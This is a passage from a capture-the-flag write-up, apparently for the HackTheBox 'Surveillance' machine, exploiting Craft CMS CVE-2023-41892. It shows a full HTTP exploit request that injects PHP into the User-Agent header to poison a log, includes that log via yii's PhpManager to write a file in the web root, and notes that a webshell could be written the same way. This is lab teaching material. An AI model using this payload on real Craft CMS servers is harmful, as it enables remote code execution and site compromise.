  * Poison the craft web logs with a PHP webshell in a `User-Agent` string.
  * Include the file using the `yii` module’s `PhpManager` object.

After including the log, PHP will still crash on the request, not returning
the results. Therefore, I’ll have PHP in the log create a webshell in the web
root that can be used repeatedly.

#### Modify POC

Starting with the original POC, I’ll replace the `GuzzleHttp` class with
`PhpManager`, using the `itemFile` to show what file to include. The log file
location (which includes today’s date) is from the [CraftCMS
documentation](https://craftcms.com/docs/4.x/logging.html). I’ll modify the
`User-Agent` header to be some PHP to write a file in the web root.

    
    
    POST /index.php HTTP/1.1
    Host: surveillance.htb
    User-Agent: <?php `echo test > /var/www/html/craft/web/0xdf.txt`;?>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 258
    
    action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/craft/storage/logs/web-2024-04-18.log"}]}}
    

On sending this twice (once to write the log and once to reference it),
there’s a file in the web root:

    
    
    oxdf@hacky$ curl http://surveillance.htb/0xdf.txt
    test
    

Updating the `User-Agent` to write a PHP webshell instead of “test” is
trivial.

### Running POC

Faelian has a really nice [POC for
CVE-2203-41892](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-
cms.py) that is held in a single Python script. It follows the same steps I
did manually using ImageMagick.

In [lines
32-62](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-
cms.py#L32-L62), it runs the POC to get `phpinfo` output, and gets the
`tmp_dir` and `document_root` from it:

